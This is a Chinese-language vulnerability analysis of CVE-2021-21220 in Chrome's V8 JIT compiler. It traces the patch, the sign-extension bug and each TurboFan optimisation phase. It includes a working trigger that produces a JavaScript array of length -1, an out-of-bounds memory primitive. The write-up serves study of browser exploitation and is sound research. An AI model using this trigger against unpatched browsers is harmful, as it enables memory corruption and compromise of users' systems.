

# CVE-2021-21220

## 前言

时隔好久，再次分析该漏洞，也就是issue-1196683，这次总算是解开了心中的些许疑惑

## 漏洞分析

### 对应issue

https://bugs.chromium.org/p/chromium/issues/detail?id=1196683

该issue也添加了相对应的regress.js：https://chromium.googlesource.com/v8/v8/+/3066b7b2fcb3aa66541a4818e1165e34acc52639/test/mjsunit/compiler/regress-1196683.js

### poc

根据regress-1196683.js修改：

```javascript
const arr = new Uint32Array([2**31]);
function foo() {
    return (arr[0] ^ 0) + 1;
}
console.log(foo());
for(var i = 0;i < 100000;i++)
    foo();
console.log(foo());
```

运行后得出结果：

```cpp
-2147483647
2147483649
```

在优化后出现了不一样的输出结果

### patch

查看官方的补丁：

```cpp
diff --git a/src/compiler/backend/x64/instruction-selector-x64.cc b/src/compiler/backend/x64/instruction-selector-x64.cc
index 39cd9b1..d17dd28 100644
--- a/src/compiler/backend/x64/instruction-selector-x64.cc
+++ b/src/compiler/backend/x64/instruction-selector-x64.cc
@@ -1376,7 +1376,9 @@
         opcode = load_rep.IsSigned() ? kX64Movsxwq : kX64Movzxwq;
         break;
       case MachineRepresentation::kWord32:
-        opcode = load_rep.IsSigned() ? kX64Movsxlq : kX64Movl;
+        // ChangeInt32ToInt64 must interpret its input as a _signed_ 32-bit
+        // integer, so here we must sign-extend the loaded value in any case.
+        opcode = kX64Movsxlq;
         break;
       default:
         UNREACHABLE();
```

漏洞是发生在SelectInstructions阶段的VisitChangeInt32ToInt64函数：

```cpp
void InstructionSelector::VisitChangeInt32ToInt64(Node* node) {
  DCHECK_EQ(node->InputCount(), 1);
  Node* input = node->InputAt(0);
  if (input->opcode() == IrOpcode::kTruncateInt64ToInt32) {
    node->ReplaceInput(0, input->InputAt(0));
  }

  X64OperandGenerator g(this);
  Node* const value = node->InputAt(0);
  if (value->opcode() == IrOpcode::kLoad && CanCover(node, value)) {
    LoadRepresentation load_rep = LoadRepresentationOf(value->op());
    MachineRepresentation rep = load_rep.representation();
    InstructionCode opcode = kArchNop;
    switch (rep) {
      case MachineRepresentation::kBit:  // Fall through.
      case MachineRepresentation::kWord8:
        opcode = load_rep.IsSigned() ? kX64Movsxbq : kX64Movzxbq;
        break;
      case MachineRepresentation::kWord16:
        opcode = load_rep.IsSigned() ? kX64Movsxwq : kX64Movzxwq;
        break;
      case MachineRepresentation::kWord32:
        opcode = load_rep.IsSigned() ? kX64Movsxlq : kX64Movl;
        break;
      default:
        UNREACHABLE();
        return;
    }
    InstructionOperand outputs[] = {g.DefineAsRegister(node)};
    size_t input_count = 0;
    InstructionOperand inputs[3];
    AddressingMode mode = g.GetEffectiveAddressMemoryOperand(
        node->InputAt(0), inputs, &input_count);
    opcode |= AddressingModeField::encode(mode);
    Emit(opcode, 1, outputs, input_count, inputs);
  } else {
    Emit(kX64Movsxlq, g.DefineAsRegister(node), g.Use(node->InputAt(0)));
  }
}
```

当`ChangeInt32ToInt64`节点的输入的opcode是IrOpcode::kLoad的时候，会根据输入的representation来进行指令的选择，如果是有符号的，就选择进行有符号拓展，如果是无符号的就选择进行无符号拓展。poc中的load是无符号类型（见下图），所以到了这里使用的是无符号拓展，导致计算结果变成了2147483648+1也就是2147483649


在SimplifiedLowering阶段，SpeculativeNumberBitwiseXor被replace为Word32节点：


对应代码：

```cpp
// src/compiler/simplified-lowering.cc
      case IrOpcode::kSpeculativeNumberBitwiseOr:
      case IrOpcode::kSpeculativeNumberBitwiseXor:
      case IrOpcode::kSpeculativeNumberBitwiseAnd:
        VisitSpeculativeInt32Binop<T>(node);
        if (lower<T>()) {
          ChangeToPureOp(node, Int32Op(node));	// <--------
        }
        return;
```

而word32节点在EarlyOptimizationPhase被消除：


相应代码：

```cpp
template <typename WordNAdapter>
Reduction MachineOperatorReducer::ReduceWordNXor(Node* node) {
  using A = WordNAdapter;
  A a(this);

  typename A::IntNBinopMatcher m(node);
  if (m.right().Is(0)) return Replace(m.left().node());  // x ^ 0 => x
  if (m.IsFoldable()) {  // K ^ K => K  (K stands for arbitrary constants)
    return a.ReplaceIntN(m.left().Value() ^ m.right().Value());
  }
  if (m.LeftEqualsRight()) return ReplaceInt32(0);  // x ^ x => 0
  if (A::IsWordNXor(m.left()) && m.right().Is(-1)) {
    typename A::IntNBinopMatcher mleft(m.left().node());
    if (mleft.right().Is(-1)) {  // (x ^ -1) ^ -1 => x
      return Replace(mleft.left().node());
    }
  }

  return a.TryMatchWordNRor(node);
}
```

我们走的是第一种情款，x^0 => x ，直接用leftnode来替换自己，这样也就导致了LoadTypedElement节点和ChangeInt32ToInt64连在了一起，触发了漏洞函数

## 漏洞利用

从poc中可以看出我们可以得到一个计算错误的数值，从网上爆出的exp来看是通过该操作得到了一个长度为-1的越界数组：

```javascript
const _arr = new Uint32Array([2**31]);

function foo() {
  var x = 1;
  x = (_arr[0] ^ 0) + 1;

  x = Math.abs(x);
  x -= 2147483647;
  x = Math.max(x, 0);

  x -= 1;
  if(x==-1) x = 0;

  var arr = new Array(x);
  arr.shift();
  return arr;
}

for(var i = 0;i < 30000;i++)
  foo();
var a = foo();
console.log(a.length);				
```

会输出-1，而越界数组a的element属性其实只分配了1个元素大小的空间

but，为什么会这样？

在多方搜索之后，在dmxcsnsbh大佬的slide中得到了解答，slide链接：https://github.com/singularseclab/Slides/blob/main/2021/chrome_exploitation-zer0con2021.pdf

slide里面提到了很多类似的issue，都是用的同样的利用手法：


（图片来自上面提到的slide）

下面跟着slide里对该操作的turbofan IR的解释进行一步步的分析

### TFBytecodeGraphBuilder

```javascript
let arr = JSConstruct("Array");
JSCall(arr,"Shift");
```

这个从turbolizer和bytecode中可以得出：

```javascript
[generated bytecode for function: foo (0x1273082d2185 <SharedFunctionInfo foo>)]
Parameter count 1
Register count 6
Frame size 48
		// .....................................省略
         0x1273082d2478 @   70 : 26 fb             Star r0
         0x1273082d247a @   72 : 41 01 0f          SubSmi [1], [15]
         0x1273082d247d @   75 : 26 fb             Star r0
         0x1273082d247f @   77 : 0c ff             LdaSmi [-1]
         0x1273082d2481 @   79 : 67 fb 10          TestEqual r0, [16]
         0x1273082d2484 @   82 : 9a 05             JumpIfFalse [5] (0x1273082d2489 @ 87)
         0x1273082d2486 @   84 : 0b                LdaZero 
         0x1273082d2487 @   85 : 26 fb             Star r0
         0x1273082d2489 @   87 : 13 05 11          LdaGlobal [5], [17]	// <----
         0x1273082d248c @   90 : 26 f9             Star r2
         0x1273082d248e @   92 : 25 f9             Ldar r2
         0x1273082d2490 @   94 : 65 f9 fb 01 13    Construct r2, r0-r0, [19]
         0x1273082d2495 @   99 : 26 fa             Star r1
         0x1273082d2497 @  101 : 28 fa 06 15       LdaNamedProperty r1, [6], [21]
         0x1273082d249b @  105 : 26 f9             Star r2
         0x1273082d249d @  107 : 58 f9 fa 17       CallProperty0 r2, r1, [23]
         0x1273082d24a1 @  111 : 25 fa             Ldar r1
         0x1273082d24a3 @  113 : aa                Return 
Constant pool (size = 7)
0x1273082d23e1: [FixedArray] in OldSpace
 - map: 0x1273080424a5 <Map>
 - length: 7
           0: 0x1273082d20c9 <String[4]: #_arr>
           1: 0x12730824a62d <String[4]: #Math>
           2: 0x12730824a63d <String[3]: #abs>
           3: 0x1273082d2405 <HeapNumber 2147483647.0>
           4: 0x12730824a7c9 <String[3]: #max>
           5: 0x127308043e2d <String[5]: #Array>
           6: 0x12730824f809 <String[5]: #shift>
Handler Table (size = 0)
Source Position Table (size = 0)
```

turbolizer：


### TFInlining

在Inlining阶段，会对jscall进行reduce：

```cpp
struct InliningPhase {
  DECL_PIPELINE_PHASE_CONSTANTS(Inlining)

  void Run(PipelineData* data, Zone* temp_zone) {
    OptimizedCompilationInfo* info = data->info();
    GraphReducer graph_reducer(temp_zone, data->graph(), &info->tick_counter(),
                               data->jsgraph()->Dead());
    DeadCodeElimination dead_code_elimination(&graph_reducer, data->graph(),
                                              data->common(), temp_zone);
    CheckpointElimination checkpoint_elimination(&graph_reducer);
    CommonOperatorReducer common_reducer(&graph_reducer, data->graph(),
                                         data->broker(), data->common(),
                                         data->machine(), temp_zone);
    JSCallReducer::Flags call_reducer_flags = JSCallReducer::kNoFlags;
    if (data->info()->bailout_on_uninitialized()) {
      call_reducer_flags |= JSCallReducer::kBailoutOnUninitialized;
    }
    JSCallReducer call_reducer(&graph_reducer, data->jsgraph(), data->broker(),
                               temp_zone, call_reducer_flags,
                               data->dependencies());
    JSContextSpecialization context_specialization(
        &graph_reducer, data->jsgraph(), data->broker(),
        data->specialization_context(),
        data->info()->function_context_specializing()
            ? data->info()->closure()
            : MaybeHandle<JSFunction>());
    JSNativeContextSpecialization::Flags flags =
        JSNativeContextSpecialization::kNoFlags;
    if (data->info()->bailout_on_uninitialized()) {
      flags |= JSNativeContextSpecialization::kBailoutOnUninitialized;
    }
    // Passing the OptimizedCompilationInfo's shared zone here as
    // JSNativeContextSpecialization allocates out-of-heap objects
    // that need to live until code generation.
    JSNativeContextSpecialization native_context_specialization(
        &graph_reducer, data->jsgraph(), data->broker(), flags,
        data->dependencies(), temp_zone, info->zone());
    JSInliningHeuristic inlining(&graph_reducer,
                                 temp_zone, data->info(), data->jsgraph(),
                                 data->broker(), data->source_positions());

    JSIntrinsicLowering intrinsic_lowering(&graph_reducer, data->jsgraph(),
                                           data->broker());
    AddReducer(data, &graph_reducer, &dead_code_elimination);
    AddReducer(data, &graph_reducer, &checkpoint_elimination);
    AddReducer(data, &graph_reducer, &common_reducer);
    if (!data->info()->IsNativeContextIndependent()) {
      AddReducer(data, &graph_reducer, &native_context_specialization);
      AddReducer(data, &graph_reducer, &context_specialization);
    }
    AddReducer(data, &graph_reducer, &intrinsic_lowering);
    AddReducer(data, &graph_reducer, &call_reducer);			// [1]
    if (data->info()->inlining()) {
      AddReducer(data, &graph_reducer, &inlining);
    }
    graph_reducer.ReduceGraph();		// [2]
    info->set_inlined_bytecode_size(inlining.total_inlined_bytecode_size());
  }
};
```

该阶段会在[1]处添加call_reducer，接着在[2]处开始对graph进行reduce，reduce期间就会调用到`Reduction JSCallReducer::ReduceArrayPrototypeShift(Node* node)`：

```cpp
// src/compiler/js-call-reducer.cc
Reduction JSCallReducer::ReduceArrayPrototypeShift(Node* node){
    // .........................................
    // Load length of the {receiver}.
    Node* length = effect = graph()->NewNode(
        simplified()->LoadField(AccessBuilder::ForJSArrayLength(kind)),
        receiver, effect, control);

    // Return undefined if {receiver} has no elements.
    Node* check0 = graph()->NewNode(simplified()->NumberEqual(), length,
                                    jsgraph()->ZeroConstant());
    Node* branch0 =
        graph()->NewNode(common()->Branch(BranchHint::kFalse), check0, control);

    Node* if_true0 = graph()->NewNode(common()->IfTrue(), branch0);
    Node* etrue0 = effect;
    Node* vtrue0 = jsgraph()->UndefinedConstant();

    Node* if_false0 = graph()->NewNode(common()->IfFalse(), branch0);
    Node* efalse0 = effect;
    Node* vfalse0;
    {
      // Check if we should take the fast-path.
      Node* check1 =
          graph()->NewNode(simplified()->NumberLessThanOrEqual(), length,
                           jsgraph()->Constant(JSArray::kMaxCopyElements));
      Node* branch1 = graph()->NewNode(common()->Branch(BranchHint::kTrue),
                                       check1, if_false0);

      Node* if_true1 = graph()->NewNode(common()->IfTrue(), branch1);
      Node* etrue1 = efalse0;
      Node* vtrue1;
      {
        Node* elements = etrue1 = graph()->NewNode(
            simplified()->LoadField(AccessBuilder::ForJSObjectElements()),
            receiver, etrue1, if_true1);

        // Load the first element here, which we return below.
        vtrue1 = etrue1 = graph()->NewNode(
            simplified()->LoadElement(
                AccessBuilder::ForFixedArrayElement(kind)),
            elements, jsgraph()->ZeroConstant(), etrue1, if_true1);

        // Ensure that we aren't shifting a copy-on-write backing store.
        if (IsSmiOrObjectElementsKind(kind)) {
          elements = etrue1 =
              graph()->NewNode(simplified()->EnsureWritableFastElements(),
                               receiver, elements, etrue1, if_true1);
        }

        // Shift the remaining {elements} by one towards the start.
        Node* loop = graph()->NewNode(common()->Loop(2), if_true1, if_true1);
        Node* eloop =
            graph()->NewNode(common()->EffectPhi(2), etrue1, etrue1, loop);
        Node* terminate = graph()->NewNode(common()->Terminate(), eloop, loop);
        NodeProperties::MergeControlToEnd(graph(), common(), terminate);
        Node* index = graph()->NewNode(
            common()->Phi(MachineRepresentation::kTagged, 2),
            jsgraph()->OneConstant(),
            jsgraph()->Constant(JSArray::kMaxCopyElements - 1), loop);

        {
          Node* check2 =
              graph()->NewNode(simplified()->NumberLessThan(), index, length);
          Node* branch2 = graph()->NewNode(common()->Branch(), check2, loop);

          if_true1 = graph()->NewNode(common()->IfFalse(), branch2);
          etrue1 = eloop;

          Node* control = graph()->NewNode(common()->IfTrue(), branch2);
          Node* effect = etrue1;

          ElementAccess const access =
              AccessBuilder::ForFixedArrayElement(kind);
          Node* value = effect =
              graph()->NewNode(simplified()->LoadElement(access), elements,
                               index, effect, control);
          effect = graph()->NewNode(
              simplified()->StoreElement(access), elements,
              graph()->NewNode(simplified()->NumberSubtract(), index,
                               jsgraph()->OneConstant()),
              value, effect, control);

          loop->ReplaceInput(1, control);
          eloop->ReplaceInput(1, effect);
          index->ReplaceInput(1,
                              graph()->NewNode(simplified()->NumberAdd(), index,
                                               jsgraph()->OneConstant()));
        }

        // Compute the new {length}.
        length = graph()->NewNode(simplified()->NumberSubtract(), length,
                                  jsgraph()->OneConstant());

        // Store the new {length} to the {receiver}.
        etrue1 = graph()->NewNode(
            simplified()->StoreField(AccessBuilder::ForJSArrayLength(kind)),
            receiver, length, etrue1, if_true1);

        // Store a hole to the element we just removed from the {receiver}.
        etrue1 = graph()->NewNode(
            simplified()->StoreElement(AccessBuilder::ForFixedArrayElement(
                GetHoleyElementsKind(kind))),
            elements, length, jsgraph()->TheHoleConstant(), etrue1, if_true1);
      }

      Node* if_false1 = graph()->NewNode(common()->IfFalse(), branch1);
      Node* efalse1 = efalse0;
      Node* vfalse1;
      {
        // Call the generic C++ implementation.
        const int builtin_index = Builtins::kArrayShift;
        auto call_descriptor = Linkage::GetCEntryStubCallDescriptor(
            graph()->zone(), 1, BuiltinArguments::kNumExtraArgsWithReceiver,
            Builtins::name(builtin_index), node->op()->properties(),
            CallDescriptor::kNeedsFrameState);
        Node* stub_code = jsgraph()->CEntryStubConstant(1, kDontSaveFPRegs,
                                                        kArgvOnStack, true);
        Address builtin_entry = Builtins::CppEntryOf(builtin_index);
        Node* entry = jsgraph()->ExternalConstant(
            ExternalReference::Create(builtin_entry));
        Node* argc =
            jsgraph()->Constant(BuiltinArguments::kNumExtraArgsWithReceiver);
        if_false1 = efalse1 = vfalse1 =
            graph()->NewNode(common()->Call(call_descriptor), stub_code,
                             receiver, jsgraph()->PaddingConstant(), argc,
                             target, jsgraph()->UndefinedConstant(), entry,
                             argc, context, frame_state, efalse1, if_false1);
      }

      if_false0 = graph()->NewNode(common()->Merge(2), if_true1, if_false1);
      efalse0 =
          graph()->NewNode(common()->EffectPhi(2), etrue1, efalse1, if_false0);
      vfalse0 =
          graph()->NewNode(common()->Phi(MachineRepresentation::kTagged, 2),
                           vtrue1, vfalse1, if_false0);
    }
    // ........................................
}
```

这里的receiver应该就是我们的数组本身：



化简下（也就是slide中的TFInlining）：

```javascript
let arr = JSCreateArray(len);
/* JSCallReducer::ReduceArrayPrototypeShift */
let length = LoadField(arr,kLengthOffset);
if(length == 0){		// check0
    return;
}else{
    if(length <= 100){	// check1
        // fast path
        DoShiftElementArray();
        // update length field
        let newlen = length - 1;
        StoreField(arr,kLengthOffset,newlen);
    }else{
        CallRuntime(ArrayShift);
    }
}
```

### TFTypedLowering

在该阶段会对JSCreateArray进行lowering，调用的是`Reduction JSCreateLowering::ReduceJSCreateArray(Node* node)`函数：

```cpp
    // src/compiler/js-create-lowering.cc
Reduction JSCreateLowering::ReduceJSCreateArray(Node* node){
  // ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
  if (arity == 0) {			// 参数个数为0
    Node* length = jsgraph()->ZeroConstant();
    int capacity = JSArray::kPreallocatedArrayElements;
    return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                          allocation, slack_tracking_prediction);
  } else if (arity == 1) {			// // 参数个数为1
    Node* length = NodeProperties::GetValueInput(node, 2);
    Type length_type = NodeProperties::GetType(length);
    if (!length_type.Maybe(Type::Number())) {
      // Handle the single argument case, where we know that the value
      // cannot be a valid Array length.
      elements_kind = GetMoreGeneralElementsKind(
          elements_kind, IsHoleyElementsKind(elements_kind) ? HOLEY_ELEMENTS
                                                            : PACKED_ELEMENTS);
      return ReduceNewArray(node, std::vector<Node*>{length}, *initial_map,
                            elements_kind, allocation,
                            slack_tracking_prediction);
    }
    if (length_type.Is(Type::SignedSmall()) && length_type.Min() >= 0 &&
        length_type.Max() <= kElementLoopUnrollLimit &&
        length_type.Min() == length_type.Max()) {
      int capacity = static_cast<int>(length_type.Max());
      // Replace length with a constant in order to protect against a potential
      // typer bug leading to length > capacity.
      length = jsgraph()->Constant(capacity);
      return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                            allocation, slack_tracking_prediction);
    }
    if (length_type.Maybe(Type::UnsignedSmall()) && can_inline_call) {
      return ReduceNewArray(node, length, *initial_map, elements_kind,
                            allocation, slack_tracking_prediction);
    }
  } 
  // ,,,,,,,,,,,,,,,,,,,,
}
```

length节点是Phi节点，接着走到ReduceNewArray函数：

```cpp
// src/compiler/js-create-lowering.cc
// Constructs an array with a variable {length} when no upper bound
// is known for the capacity.
Reduction JSCreateLowering::ReduceNewArray(
    Node* node, Node* length, MapRef initial_map, ElementsKind elements_kind,
    AllocationType allocation,
    const SlackTrackingPrediction& slack_tracking_prediction) {
  DCHECK_EQ(IrOpcode::kJSCreateArray, node->opcode());
  Node* effect = NodeProperties::GetEffectInput(node);
  Node* control = NodeProperties::GetControlInput(node);

  // Constructing an Array via new Array(N) where N is an unsigned
  // integer, always creates a holey backing store.
  ASSIGN_RETURN_NO_CHANGE_IF_DATA_MISSING(
      initial_map,
      initial_map.AsElementsKind(GetHoleyElementsKind(elements_kind)));

  // Because CheckBounds performs implicit conversion from string to number, an
  // additional CheckNumber is required to behave correctly for calls with a
  // single string argument.
  length = effect = graph()->NewNode(
      simplified()->CheckNumber(FeedbackSource{}), length, effect, control);

  // Check that the {limit} is an unsigned integer in the valid range.
  // This has to be kept in sync with src/runtime/runtime-array.cc,
  // where this limit is protected.
  length = effect = graph()->NewNode(
      simplified()->CheckBounds(FeedbackSource()), length,
      jsgraph()->Constant(JSArray::kInitialMaxFastElementArray), effect,
      control);			// [2]

  // Construct elements and properties for the resulting JSArray.
  Node* elements = effect =
      graph()->NewNode(IsDoubleElementsKind(initial_map.elements_kind())
                           ? simplified()->NewDoubleElements(allocation)
                           : simplified()->NewSmiOrObjectElements(allocation),
                       length, effect, control);

  // Perform the allocation of the actual JSArray object.
  AllocationBuilder a(jsgraph(), effect, control);
  a.Allocate(slack_tracking_prediction.instance_size(), allocation);
  a.Store(AccessBuilder::ForMap(), initial_map);
  a.Store(AccessBuilder::ForJSObjectPropertiesOrHashKnownPointer(),
          jsgraph()->EmptyFixedArrayConstant());
  a.Store(AccessBuilder::ForJSObjectElements(), elements);
  a.Store(AccessBuilder::ForJSArrayLength(initial_map.elements_kind()), length);
  for (int i = 0; i < slack_tracking_prediction.inobject_property_count();
       ++i) {
    a.Store(AccessBuilder::ForJSObjectInObjectProperty(initial_map, i),
            jsgraph()->UndefinedConstant());
  }
  RelaxControls(node);
  a.FinishAndChange(node);
  return Changed(node);
}
```

[2]处的JSArray::kInitialMaxFastElementArray值为16380，这里加入了一个CheckBounds节点，它的两个输入分别是JSArray::kInitialMaxFastElementArray节点和Phi Range(-1,0)：


CheckBounds的Range(0,0)应该是出现在TypedLowering阶段里的RetypePhase，该阶段会调用到`Type OperationTyper::CheckBounds(Type index, Type length)`：

```cpp
// src/compiler/operation-typer.cc
Type OperationTyper::CheckBounds(Type index, Type length) {
  DCHECK(length.Is(cache_->kPositiveSafeInteger));
  if (length.Is(cache_->kSingletonZero)) return Type::None();
  Type mask = Type::Range(0.0, length.Max() - 1, zone());	// 	[3]
  if (index.Maybe(Type::MinusZero())) {
    index = Type::Union(index, cache_->kSingletonZero, zone());
  }
  if (index.Maybe(Type::String())) {
    index = Type::Union(index, cache_->kIntPtr, zone());
  }
  return Type::Intersect(index, mask, zone());		// [4]
}
```

这里index是我们的Phi的range，就是(-1,0)，length的range是(16380,16380)，但是在[3]会呗更新为(0,16379)，最后在[4]做交集得出(0,0)

所以在TFTypedLowering阶段，JSCreateArray(len)被替换为：

```javascript
let len = Phi Range(-1,0);
let limit = kInitialMaxFastElementArray;  // 16380
let checkedLen = CheckBounds(len,limit); // Range(0,0)，real 1

let arr = Allocate(kArraySize);
StoreField(arr,k[Map|Properties|Elements]offset,relative_value);

StoreField(arr,kLengthOffset,checkedLen);
```

### TFLoadElimination

在上一阶段，JSCreateArray被替换成一系列的操作，回到TFInlining，在JSCreateArray的后续操作就是`let length = LoadField(arr,kLengthOffset);`

也就是等于：

```javascript
let len = Phi Range(-1,0);
let limit = kInitialMaxFastElementArray;  // 16380
let checkedLen = CheckBounds(len,limit);  // Range(0,0)，real 1

let arr = Allocate(kArraySize);
StoreField(arr,k[Map|Properties|Elements]offset,relative_value);

StoreField(arr,kLengthOffset,checkedLen);
let length = LoadField(arr,kLengthOffset);	// [5]
```

在该阶段，[5]处经过`Reduction LoadElimination::ReduceLoadField(Node* node, FieldAccess const& access)`函数的处理，会被替换成：

```javascript
StoreField(arr,kLengthOffset,checkedLen);
let length = checkedLen;		// Range(0,0), real 1
```

在该函数处下个断点：


途径会有很多LoadField被处理，我们只关心在JSCreateArray后获取length的那个LoadField节点，这个可以对照turbolizer图来找到

```cpp
pwndbg> telescope object
00:0000│  0x55d61c1af070 —▸ 0x7f7b7a656eb8 —▸ 0x7f7b7a570ec0 —▸ 0x7f7b79f70fa0 ◂— push   rbp
01:0008│  0x55d61c1af078 ◂— 0x4000001
02:0010│  0x55d61c1af080 ◂— 0x820000550000001b
03:0018│  0x55d61c1af088 —▸ 0x55d61c1b33b0 —▸ 0x55d61c1b2e48 —▸ 0x55d61c1b2588 —▸ 0x55d61c1b2400 ◂— ...
04:0020│  0x55d61c1af090 —▸ 0x7f7b6c004690 —▸ 0x7f7b6c004548 —▸ 0x7f7b7a580a88 —▸ 0x7f7b7a355af0 ◂— ...
05:0028│  0x55d61c1af098 —▸ 0x7f7b6c004c38 —▸ 0x7f7b6c004b68 —▸ 0x7f7b7a580ab8 —▸ 0x7f7b7a355f30 ◂— ...
06:0030│  0x55d61c1af0a0 ◂— 0x0
07:0038│  0x55d61c1af0a8 ◂— 0x0
pwndbg> telescope 0x7f7b7a656eb8
00:0000│  0x7f7b7a656eb8 —▸ 0x7f7b7a570ec0 —▸ 0x7f7b79f70fa0 ◂— push   rbp
01:0008│  0x7f7b7a656ec0 —▸ 0x7f7b77a91e00 ◂— 'FinishRegion'
02:0010│  0x7f7b7a656ec8 ◂— 0x100780027 /* "'" */
03:0018│  0x7f7b7a656ed0 ◂— 0x1
04:0020│  0x7f7b7a656ed8 ◂— 0x100000001
05:0028│  0x7f7b7a656ee0 ◂— 0x0
06:0030│  0x7f7b7a656ee8 —▸ 0x7f7b7a570ee8 —▸ 0x7f7b79f70fa0 ◂— push   rbp
07:0038│  0x7f7b7a656ef0 —▸ 0x7f7b77ae1d38 ◂— 0x54006e6961746552 /* 'Retain' */
pwndbg> 
```

object就是与136号节点LoadField的输入FinishRegion节点，见下图的节点编号：


在该函数中LoadField会被替换为CheckBounds（与其说是替换，应该说是被消除了）：


所以现在整体的逻辑为：

```javascript
let len = Phi Range(-1,0);
let limit = kInitialMaxFastElementArray;  // 16380
let checkedLen = CheckBounds(len,limit);  // Range(0,0)，real 1

let arr = Allocate(kArraySize);
StoreField(arr,k[Map|Properties|Elements]offset,relative_value);

StoreField(arr,kLengthOffset,checkedLen);
let length = checkedLen;		// Range(0,0), real 1
if(length == 0){		
    return;
}else{
    if(length <= 100){	
        // fast path
        DoShiftElementArray();
        // update length field
        let newlen = length - 1;
        StoreField(arr,kLengthOffset,newlen);
    }else{
        CallRuntime(ArrayShift);
    }
}
```

在后续的常量折叠（调用`Reduction ConstantFoldingReducer::Reduce(Node* node)`）中，把：

```javascript
let newlen = length - 1;
StoreField(arr,kLengthOffset,newlen);
```

替换成了：

```javascript
StoreField(arr,kLengthOffset,-1);
```

turbolizer：


在LoadELimination阶段结束后：


整体逻辑为：

```javascript
let len = Phi Range(-1,0);
let limit = kInitialMaxFastElementArray;  // 16380
let checkedLen = CheckBounds(len,limit);  // Range(0,0)，real 1

let arr = Allocate(kArraySize);

let elements = NewDoubleElements(checkedLen);
StoreField(arr,kMapOffset,map);
StoreField(arr,kPropertiesOffset,properties);
StoreField(arr,kElementsoffset,elements);

StoreField(arr,kLengthOffset,checkedLen);
let length = checkedLen;		// Range(0,0), real 1
if(length != 0){		
    if(length <= 100){	
        // fast path
        DoShiftElementArray();
        // update length field
        StoreField(arr,kLengthOffset,-1);
    }else{
        CallRuntime(ArrayShift);
    }
}
```

其中对loop节点和那几个branch的优化可以见[PortalLab实验室文章](https://mp.weixin.qq.com/s/7XTclEGftJufdyLcfiAYSA) 里的分析，讲的也很详细

在LoadElimination阶段之后，逻辑就变成了length不等于0，且小于100的情况下，就会向Array的length中写入-1，orz


在后续的优化阶段CheckBounds节点会被替换成具体的比较节点，如Uint32LessThen，如果不在范围内就会进行Deoptimize

### TFTyper

回到一开始的`let len = Phi Range(-1,0);`

这个是因为在Typer阶段，turbofan会对一些节点进行预测：

```javascript
const _arr = new Uint32Array([2**31]);

function foo() {
  var x = 1;
  x = (_arr[0] ^ 0) + 1; // x Range(-2147483647,2147483648)

  x = Math.abs(x);	// x Range(0,2147483648)
  x -= 2147483647;  // x Range(-2147483647,1)
  x = Math.max(x, 0); // x Range(0,1)

  x -= 1;	// x Range(-1,0)
  if(x==-1) x = 0;	// x Phi Range(-1,0)

  var arr = new Array(x);
  arr.shift();
  return arr;
}
```

而`(_arr[0] ^ 0) + 1`被推测为`Range(-2147483647,2147483648)`，应该是js里32位整数xor操作的范围是Range(-2147483648,2147483647)：

```cpp
V8 version 8.6.405
d8> var a = 2**31;
undefined
d8> a^0
-2147483648
d8> (a-1)^0  
2147483647
d8> (a+10)^0
-2147483638
d8> a.toString(16);
"80000000"
d8> 
```

对应的turbolizer：


## 参考链接

https://github.com/singularseclab/Slides/blob/main/2021/chrome_exploitation-zer0con2021.pdf

https://mp.weixin.qq.com/s/7XTclEGftJufdyLcfiAYSA

https://bugs.chromium.org/p/chromium/issues/detail?id=1196683
